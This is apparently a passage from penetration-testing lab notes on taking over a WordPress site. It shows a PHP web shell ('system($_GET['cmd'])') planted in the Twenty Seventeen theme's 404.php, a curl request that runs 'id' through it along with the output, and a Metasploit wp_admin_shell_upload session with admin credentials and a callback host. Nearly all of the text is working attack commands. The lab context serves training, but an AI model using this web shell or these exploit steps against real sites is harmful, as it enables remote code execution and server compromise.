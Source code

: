 <figure><img src="../../../../.gitbook/assets/Twenty-Seventeen.png" alt=""><figcaption></figcaption></figure>

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

Then execute this command :

```bash
curl -X GET http://167.172.57.150:31546/wp-content/themes/twentyseventeen/404.php?cmd=id 
```

And you get this response :

```
uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
```

### Metasploit

```bash
msfconsole
```

```
msf5 > search wp_admin
msf5 > use 0
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options
...
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```
